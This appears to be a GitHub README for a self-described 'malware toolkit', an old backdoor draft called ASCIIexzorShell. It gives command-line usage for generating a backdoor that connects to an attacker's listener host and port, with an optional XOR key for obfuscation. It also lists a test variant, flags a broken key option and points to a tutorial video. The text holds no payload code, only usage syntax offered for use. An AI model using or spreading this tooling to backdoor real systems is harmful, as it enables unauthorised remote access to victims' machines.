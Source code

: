 # forgotten scripts

This backdoor is an old draft that I decided to share.

In order to use my malware toolkit you have first to install the ASCIIexzor suit. Once it has been done, you can run two scripts.

for backdooring purposes :
```bash
ASCIIexzorShell -a <target arch> -h <host listener> -p <listen port> [opt][-v <varname> -k <xor key>]
```
for testing purposes : 
```bash
ASCIIexzorShell-Test -a <target arch> [opt][-v <varname> -k <xor key>]
```

***note : the -k option is partially broken. Although it's possible to use a custom key the backdoor could not work.***

My [youtube video](https://www.youtube.com/watch?v=rSgrQAHQZIE) ( in french ) should gives you a light clue how to use my malware toolkit. 

Of course, this draft is just for testing purpose. If you to plan to use it for a custom projet, you can still use my backdoor template but you will have to run your own rat. 
